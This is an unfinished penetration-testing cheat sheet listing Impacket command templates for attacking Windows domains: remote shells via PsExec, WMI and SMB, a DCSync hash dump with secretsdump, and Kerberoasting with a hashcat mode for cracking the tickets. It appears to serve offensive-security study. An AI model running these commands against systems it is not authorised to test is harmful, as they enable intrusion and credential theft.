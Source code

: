 Impacket is a suite of tools that is massively useful when compromising Windows hosts.

# Impacket-PSExec
```shell
impacket-psexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via PsExec (if user has local administrator rights). Requires transferring a binary to the target machine.
```

# Impacket-WMIExec
```shell
impacket-wmiexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via Windows Management Instrumentation. 
```
WMIExec is marginally more stealthy than PSExec but it has WMI as an obvious prerequisite. 

# Impacket-SMBExec
```shell
impacket-smbexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via SMB named pipes without transferring a binary.
```
# Impacket-SecretsDump
```shell
impacket-secretsdump -outputfile <hashes outfile> -just-dc <domain>/<user>@<DC_IP> # Perform DCSync attack against a domain controller with Domain Admin credentials or other user creds with DCSync rights. 

-just-dc-user # If we want a specific user
-history # If we want to find password history 
-user-status # Tells if a user is disabled
```

# Impacket-SMBServer
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

# Impacket-GetUserSPNs
```shell
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> # List SPN accounts
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request # Request all TGTs. 
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <SPN> -outputfile out-tgt # Request one TGT and save
```
The `out-tgt` can be cracked with hashcat mode 13100. 

# Impacket-raiseChild
TODO: Write this

# Impacket-ticketer
TODO: Write this

# Impacket-lookupsid
TODO: Write this

# Impacket-mssqlclient
TODO: Write this